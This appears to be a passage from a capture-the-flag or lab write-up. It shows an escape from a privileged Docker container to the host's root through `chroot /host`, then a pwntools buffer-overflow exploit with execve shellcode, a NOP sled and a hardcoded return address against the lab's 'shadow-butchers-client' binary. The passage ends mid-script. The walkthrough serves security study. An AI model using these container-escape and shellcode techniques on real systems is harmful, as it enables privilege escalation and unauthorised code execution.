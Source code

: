 We realize that we are not in the system, but in a container, a privileged container! 


> this is possible because docker is runned with the following command
> `docker run -d --pid=host -v /:/host/ --privileged -p 3100:3100 --restart unless-stopped nextjs-docker`
> allowing also `capsh --print` attack
> 
We can mount the server's filesystem on the docker container and act as the root of the server:
```sh
chroot /host sh
```
![](images/shadow/shell_escape.png)

## 🔴 Hard path
The same `shadow-butchers-client` executable in the *saltbae* home is vulnerable to a buffer overflow. The buffer overflow is exploitable from the *order meat from suppliers* option. The program will ask the user to input the name of the supplier he wants to buy the meat from. This string is copied to a buffer without checking the length. Since the machine does not have ASLR active and the executable was compiled with executable stack and with no canaries the exploitation is pretty straight forward.

We tested the following python exploit written using the *pwntools* library:
```py
from pwn import *
context.update(arch='i386', os='linux')

io = process('./shadow-butchers-client')

shellcode = b'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'
padding = b'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJ'
slide = b'\x90'*32
payload = padding + b'\x2c\xd5\xff\xff' + slide + shellcode

raw_input("Attach GDB")

io.recvuntil(b'Options')
print(io.recvline())
print(io.recvline())
print(io.recvline())
print(io.recvline())
print(io.recvline())

io.sendline(b'2')
```